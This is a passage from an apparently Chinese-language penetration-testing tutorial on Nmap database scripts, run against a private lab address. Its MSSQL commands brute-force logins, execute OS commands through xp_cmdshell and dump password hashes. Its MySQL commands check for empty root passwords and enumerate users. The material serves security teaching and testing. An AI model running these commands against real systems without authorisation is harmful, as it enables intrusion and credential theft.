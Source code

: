 猜解mssql用户名和密码

```
nmap -p1433 --script=ms-sql-brute --script-args=userdb=/var/passwd,passdb=/var/passwd 192.168.137.4    

```

![2014060616135770347.jpg](http://drops.javaweb.org/uploads/images/18682644f7d791034b85e5e3ac7b1cbc8cda0425.jpg)

xp_cmdshell 执行命令 

```
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user" 192.168.137.4       

```

![2014060616145120758.jpg](http://drops.javaweb.org/uploads/images/d35564abffa339fa3323d11db4332a97d99a679a.jpg)

dumphash值

```
nmap -p 1433 --script ms-sql-dump-hashes.nse --script-args mssql.username=sa,mssql.password=sa  192.168.137.4      

```

![enter image description here](http://drops.javaweb.org/uploads/images/a2576a69359686c215a306f203f7ae1344593538.jpg)

（4）Mysql扫描：

扫描root空口令

```
nmap -p3306 --script=mysql-empty-password.nse 192.168.137.4   

```

![enter image description here](http://drops.javaweb.org/uploads/images/a26fbfa08f8e697ed85ac322b4dd2ec2568e621c.jpg)

列出所有mysql用户

```
nmap -p3306 --script=mysql-users.nse --script-args=mysqluser=root 192.168.137.4   

```

支持同一应用的所有脚本扫描

```
nmap --script=mysql-* 192.168.137.4  

```

![enter image description here](http://drops.javaweb.org/uploads/images/4725f3ffdc4be304f6c74a057a7c99259d3c84f8.jpg)

（5）Oracle扫描：
